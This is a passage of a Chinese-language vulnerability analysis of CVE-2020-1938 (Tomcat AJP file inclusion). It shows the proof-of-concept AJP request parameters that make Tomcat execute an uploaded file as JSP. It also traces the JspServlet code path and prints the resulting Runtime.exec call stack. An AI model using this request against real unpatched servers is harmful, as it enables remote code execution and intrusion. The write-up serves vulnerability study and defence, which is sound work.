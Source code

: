 
### RCE

    Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/"

`org/apache/jasper/servlet/JspServlet#service`负责处理`xxx.jsp`访问逻辑，跟进来
**jspUri** 是通过 **servlet\_path** 和 **path\_info** 拼接而来的。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId43.png)

之后便会进入 **serviceJspFile** 逻辑进行处理。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId44.png)

跟进 **serviceJspFile** 方法，首先先通过 **getResource**
获取上传文件的内容，然后再通过初始化 **wrapper**
对象传入相关参数，然后再调用 **JspServletWrapper\#service** 进行解析。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId45.png)

这简单解释一下，**RCE** 的核心需要进入的 **JspServlet** ，我们平常访问
**xxx.jsp** 是进入到 **Jspservlet** ，poc中访问`/1.jsp`通过 **AJP**
发包的过程中实际上就是我们的Get请求访问`www.xxx.com/1.jsp`，所以这里自然进入了
**JspServlet** 当中，然后再配合 **getResource** 获取上传的文件内容，调用
**Jsp** 引擎进行解析，自然达到了RCE的效果。

最后附上RCE的调用栈

    Copy to clipboardexec:347, Runtime (java.lang)
    _jspService:1, _1_txt (org.apache.jsp)
    service:70, HttpJspBase (org.apache.jasper.runtime)
    service:741, HttpServlet (javax.servlet.http)
    service:476, JspServletWrapper (org.apache.jasper.servlet)
    serviceJspFile:386, JspServlet (org.apache.jasper.servlet)
    service:330, JspServlet (org.apache.jasper.servlet)
    service:741, HttpServlet (javax.servlet.http)
    internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
    internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    invoke:199, StandardWrapperValve (org.apache.catalina.core)
    invoke:96, StandardContextValve (org.apache.catalina.core)
    invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
    invoke:137, StandardHostValve (org.apache.catalina.core)
    invoke:81, ErrorReportValve (org.apache.catalina.valves)
    invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
    invoke:87, StandardEngineValve (org.apache.catalina.core)
    service:343, CoyoteAdapter (org.apache.catalina.connector)
    service:476, AjpProcessor (org.apache.coyote.ajp)
    process:66, AbstractProcessorLight (org.apache.coyote)
    process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
    doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
    run:49, SocketProcessorBase (org.apache.tomcat.util.net)
    runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
    run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
    run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
    run:745, Thread (java.lang)
